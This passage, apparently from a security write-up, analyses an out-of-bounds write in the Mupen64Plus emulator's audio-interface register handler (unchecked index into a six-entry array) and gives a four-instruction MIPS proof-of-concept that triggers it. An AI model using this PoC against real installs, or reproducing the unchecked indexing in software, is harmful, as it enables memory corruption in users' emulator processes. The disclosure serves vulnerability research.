

### BUG3: ai_reg overflow


#### Vulnerability Analysis

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/ai/ai_controller.c#L189
void write_ai_regs(void* opaque, uint32_t address, uint32_t value, uint32_t mask)
{
    struct ai_controller* ai = (struct ai_controller*)opaque;
    uint32_t reg = ai_reg(address);

    ...
    masked_write(&ai->regs[reg], value, mask);
}
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/ai/ai_controller.h#L72
static osal_inline uint32_t ai_reg(uint32_t address)
{
    return (address & 0xffff) >> 2;
}

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/ai/ai_controller.h#L35
enum ai_registers
{
    AI_DRAM_ADDR_REG,
    AI_LEN_REG,
    AI_CONTROL_REG,
    AI_STATUS_REG,
    AI_DACRATE_REG,
    AI_BITRATE_REG,
    AI_REGS_COUNT      = 6
};

// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/rcp/ai/ai_controller.h#L55
struct ai_controller
{
    uint32_t regs[AI_REGS_COUNT];
    struct ai_dma fifo[AI_DMA_FIFO_SIZE];
    unsigned int samples_format_changed;
    uint32_t last_read;
    uint32_t delayed_carry;
    float dma_modifier;

    struct mi_controller* mi;
    struct ri_controller* ri;
    struct vi_controller* vi;

    void* aout;
    const struct audio_out_backend_interface* iaout;
};
```

#### Reproduction

- poc.asm

```asm
0000000000000000 <_start>:
   0:   3c048450        lui     a0,0x8450
   4:   348403fc        ori     a0,a0,0x3fc
   8:   ac850000        sw      a1,0(a0)
   c:   00000000        nop
```


